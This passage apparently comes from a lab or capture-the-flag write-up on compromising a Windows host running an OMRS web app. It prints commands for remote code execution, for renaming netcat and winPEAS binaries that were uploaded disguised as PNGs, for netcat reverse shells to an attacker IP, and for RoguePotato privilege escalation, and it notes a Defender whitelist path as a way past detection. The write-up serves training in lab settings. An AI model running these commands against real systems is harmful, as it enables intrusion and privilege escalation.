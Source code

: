 The -m and -p are the mobile number and password you used to register in the OMRS

```bash
python3 omrs.py -u http://172.16.1.102/ -c whoami -m 6789 -p 1234

python3 omrs.py -u http://172.16.1.102/ -c "type C:\Users\blake\Desktop\flag.txt" -m 6789 -p 1234
```

We get the flag.

## MinatoTW strikes again

The problem with the exploit was we were not able to upload any files. So we have to go to the registration form and upload the winpeas and nc binaries with png extensions and the names are changes in the directory we were in. So we had to change them back to execute them.

```bash
python3 omrs.py -u http://172.16.1.102/ -c 'powershell -nop -c "Rename-Item -Path 'd5ffca6b7e2bf2854daa85f71841ccf21632552801.png' -NewName 'nc.exe' " ' -m 6789 -p 1234

python3 omrs.py -u http://172.16.1.102/ -c ".\nc.exe 10.10.14.23 1210 -e C:\Windows\System32\cmd.exe" -m 6789 -p 1234

```

and we get our reverse shell as we already uploaded the winpeas we can just change it's name too and execute it.

```PowerShell
powershell -nop -c "Rename-Item -Path '69f5c4ece9a03196703160274d6aa9671632552801.png' -NewName 'winpeas.exe' " 
```

Tried to run Rogue Potato but windows Defender was stopping it from giving a shell but we can see a `C:\Apps\SERVER.EXE` in the windows defender whitelist paths

So it maybe our path to salvation. After finding out we should do buffer overflow and he flag task name being `MinatoTW`  I did a quick google search to find 

`copy C:\Users\Administrator\Desktop\flag.txt C:\xampp\htdocs\user\images\flag3.txt`

```
.\RoguePotato.exe -r 10.10.14.23 -e "dir C:\Users\Administrator > out1.txt" -l 4444
```

copy C:\Users\blake\Desktop\flag.txt  C:\xampp\htdocs\user\images\flag2.txt

```
.\RoguePotato.exe -r 10.10.14.23 -e ".\nc64.exe 10.10.14.23 4433 -e C:\Windows\System32\cmd.exe" -l 4444
```

For some reason the flag was there and it worked with rogue potato for someone else I think, So I just used it, tried to replicate it but it wasn't working. Well I'll ask in discord later again.

## Feeling fintastic

Let's go to `172.16.1.17`, it has web page and 445 (microsoft-ds) which is most likely a samba share. 
